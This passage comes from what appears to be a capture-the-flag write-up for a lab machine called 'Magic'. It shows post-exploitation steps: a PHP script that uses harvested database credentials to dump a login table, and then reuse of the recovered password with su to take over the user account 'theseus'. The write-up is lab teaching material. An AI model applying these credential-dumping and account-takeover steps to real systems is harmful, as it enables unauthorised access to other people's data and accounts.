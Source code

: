 	apt install mysql-client-core-5.7
	apt install mariadb-client-core-10.1
	
	Ask your administrator to install one of them.
	```
	- `mysql-client` does not exist
5. We can confirm that `mysql` is running w/ `netstat`
	```
	www-data@ubuntu:/var/www/Magic$ netstat -ano | grep 3306
	tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
	```

## Theseus - Obtain creds by querying mysql w/ PHP
1. Create a `PHP` file `query.php` to `query` the database
	```php
	<?php
	$servername = "localhost";
	$username = "theseus";
	$password = "iamkingtheseus";
	$dbname = "Magic";
	
	// Create connection
	$conn = new mysqli($servername, $username, $password, $dbname);
	// Check connection
	if ($conn->connect_error) {
	  die("Connection failed: " . $conn->connect_error);
	}
	
	#$sql = "SELECT id, firstname, lastname FROM MyGuests";
	$sql = "SELECT username, password FROM login";
	$result = $conn->query($sql);
	
	if ($result->num_rows > 0) {
	  // output data of each row
	  while($row = $result->fetch_assoc()) {
	    echo "username: " . $row["username"]. " - password: " . $row["password"];
	  }
	} else {
	  echo "0 results";
	}
	$conn->close();
	?>
	```
	> Queries for username & password from `Magic` database from `login` table - [Code Skeleton](https://www.w3schools.com/php/php_mysql_select.asp)
	{: .prompt-info}
2. Query `mysql` database
	```
	www-data@ubuntu:/var/www/Magic$ php query.php
	username: admin - password: Th3s3usW4sK1ng
	```
	- `admin:Th3s3usW4sK1ng`
3. Switch to user `theseus` w/ `Th3s3usW4sK1ng`
	```
	www-data@ubuntu:/var/www/Magic$ su theseus
	Password: Th3s3usW4sK1ng
	theseus@ubuntu:/var/www/Magic$ id;whoami
	uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
	theseus
	```
